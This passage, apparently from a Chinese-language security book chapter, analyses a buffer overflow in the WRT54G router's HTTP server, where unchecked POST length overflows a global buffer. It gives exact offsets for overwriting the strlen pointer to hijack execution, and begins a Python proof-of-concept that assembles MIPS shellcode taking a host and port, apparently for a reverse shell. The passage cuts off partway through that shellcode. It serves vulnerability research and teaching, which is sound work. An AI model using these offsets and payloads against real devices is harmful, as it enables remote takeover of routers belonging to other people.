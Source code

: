 ```
1 wreadlen = wfread(post_buf,1,content-length,fhandle);
2 if(wreadlen)
3     strlen(post_buf);

```

读取长度为content-length的所有POST数据到post_buf，如果读取的POST数据长度不为0，就计算post_buf中数据的长度。 这里的content-length是POST参数的长度，在调用do_apply_post函数时并没有进行校验，而该长度在使用读取数据进入内存时也没有进行校验就直接读取了POST参数，因此导致了缓冲区溢出。 我们再看看产生缓冲区溢出的内存post_buf的位置。可以看到，post_buf位于HTTPD的 .data段中，如下图所示。在应用程序中，.data段用于存放已初始化的全局变量，这里的post_buf大小为0x2710字节（10 000字节）。

[![](http://static.wooyun.org//drops/20150804/2015080402371184686.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/%E5%9B%BE13-10.png)

现在我们已经弄清楚了漏洞的原理。该漏洞在接收超过10 000字节的来自攻击者伪造的数据包时，由于在do_apply_post函数调用前后没有验证POST数据的长度，而在do_apply_post函数中使用了自定义的wfread() 函数，并调用了fread() 系统函数，直接将伪造的超长POST数据全部复制到大小为10 000字节的全局变量post_buf中，所以导致了缓冲区溢出。

13.3　漏洞利用
=====

下面介绍一下该漏洞的利用方式。

13.3.1　漏洞利用方式：执行Shellcode
-------------------------

* * *

在漏洞分析中我们发现，该漏洞有一个特征，就是缓冲区溢出的数据覆盖 .data段中的全局变量。仔细分析能够发现在 .data段后面有以下段，如下图所示。

[![](http://static.wooyun.org//drops/20150804/2015080402371172492.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/%E5%9B%BE13-11.png)

因为这些段是连续的并且可写入，所以我们考虑通过do_apply_post函数的漏洞使溢出数据连续覆盖 .data后面的多个段，直到将 .extern段中的strlen函数地址覆盖，这样，我们就可以在wfread函数覆盖内存以后，在调用strlen函数时将执行流程劫持并执行任意地址的代码，如下图所示。

[![](http://static.wooyun.org//drops/20150804/2015080402371291123.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/%E5%9B%BE13-12.png)

在这里，只要填充0x2F32（0x1000D7A0 - 0x10001AD8）字节的数据，就可以将原来的strlen调用位置填充为任意地址，并控制执行流程。但是，为了利用的稳定性和通用性，这里选择将strlen之后的一段数据一并覆盖，利用方法如下图所示。 在post_buf中填充NOP指令及Shellcode，将post_buf之后总共0x4000字节的数据全部覆盖为post_buf首地址，使布置的缓冲区总是能够覆盖strlen函数地址，strlen指向post_buf，如此一来，原来执行strlen的地方都会跳转到post_buf首地址去执行。这样就可以保证wfread() 函数布置完缓冲区以后，在0x004112D8处执行strlen函数时会被劫持到post_buf头部去执行我们的Shellcode了。

[![](http://static.wooyun.org//drops/20150804/2015080402371299867.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/%E5%9B%BE13-13.png)

13.3.2　生成POC
------------

* * *

在完成了ROP的构造以后，编写如下代码与路由器进行交互，实现漏洞利用。 源码　wrt54g_POC.py

```
1 import sys
2 import struct,socket
3 import urllib2
4 def makepayload(host,port):
5     print '[*] prepare shellcode',
6     hosts = struct.unpack('<cccc',struct.pack('<L',host))
7     ports = struct.unpack('<cccc',struct.pack('<L',port))
8     mipselshell ="\xfa\xff\x0f\x24"   # li t7,-6
9     mipselshell+="\x27\x78\xe0\x01"   # nor t7,t7,zero
10     mipselshell+="\xfd\xff\xe4\x21"   # addi a0,t7,-3
11     mipselshell+="\xfd\xff\xe5\x21"   # addi a1,t7,-3
12     mipselshell+="\xff\xff\x06\x28"   # slti a2,zero,-1
13     mipselshell+="\x57\x10\x02\x24"   # li v0,4183 # sys_socket
14     mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
15     mipselshell+="\xff\xff\xa2\xaf"   # sw v0,-1(sp)
16     mipselshell+="\xff\xff\xa4\x8f"   # lw a0,-1(sp)
```